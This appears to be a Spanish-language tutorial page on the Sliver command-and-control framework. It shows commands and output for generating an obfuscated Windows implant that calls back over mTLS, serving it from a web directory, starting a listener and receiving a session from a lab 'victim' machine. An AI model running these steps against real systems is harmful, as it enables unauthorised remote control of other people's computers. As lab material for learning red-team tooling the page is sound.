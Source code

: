 <figure><img src="../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

## Implants y Beacons

### Implant

Vendría a ser el equivalente se tener una shell directa en la máquina víctima, la desventaja es que es muy ruidoso ya que está pendiente al instante de si ejecutamos un comando.

```bash
sliver > generate --mtls 192.168.1.12 --arch amd64 --os windows --format exe --save /var/www/html/

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 1m30s
[*] Implant saved to /var/www/html/TOUGH_JUMBO.exe

#Flags:
#======
#  -a, --arch               string    cpu architecture (default: amd64)
#  -f, --format             string    Specifies the output formats, valid values are: 'exe', 'shared' (for dynamic libraries), 'service' (see `psexec` for more info) and 'shellcode' (windows only) (default: exe)
#  -m, --mtls               string    mtls connection strings
#  -o, --os                 string    operating system (default: windows)
#  -s, --save               string    directory/file to the binary to

sliver > mtls

[*] Starting mTLS listener ...

[*] Successfully started job #1

sliver > jobs

 ID   Name   Protocol   Port 
==== ====== ========== ======
 1    mtls   tcp        8888 

# Acá la víctima ejecutó el exe que creamos arriba
[*] Session 7467d5c1 TOUGH_JUMBO - 192.168.1.5:49906 (DESKTOP-0AHIE2G) - windows/amd64 - Tue, 06 Jun 2023 18:08:48 EDT

sliver > sessions

 ID         Name          Transport   Remote Address      Hostname          Username   Operating System   Locale   Last Message                               Health  
========== ============= =========== =================== ================= ========== ================== ======== ========================================== =========
 7467d5c1   TOUGH_JUMBO   mtls        192.168.1.5:49906   DESKTOP-0AHIE2G   MalTest    windows/amd64      en-US    Tue Jun  6 18:12:48 EDT 2023 (1m58s ago)   [ALIVE] 

sliver > use
```